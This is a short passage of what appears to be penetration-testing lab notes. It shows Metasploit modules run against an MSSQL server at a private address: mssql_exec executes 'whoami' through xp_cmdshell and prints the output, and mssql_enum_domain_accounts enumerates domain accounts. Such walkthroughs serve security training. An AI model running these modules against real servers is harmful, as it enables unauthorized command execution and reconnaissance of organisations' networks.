 ![Metasploit - mssql_enum_sql_logins](assets/image-20230219194537158.png)

```bash
use auxiliary/admin/mssql/mssql_exec
set RHOSTS 10.4.23.176
set CMD whoami
exploit
```

```bash
[*] Running module against 10.4.23.176
[*] 10.4.23.176:1433 - SQL Query: EXEC master..xp_cmdshell 'whoami'
 output
 ------
 nt service\mssql$sqlexpress
[*] Auxiliary module execution completed
```

![Metasploit - mssql_exec](assets/image-20230219194926288.png)

```bash
use auxiliary/admin/mssql/mssql_enum_domain_accounts
set RHOSTS 10.4.23.176
exploit
```

![Metasploit - mssql_enum_domain_accounts](assets/image-20230219195109764.png)

------

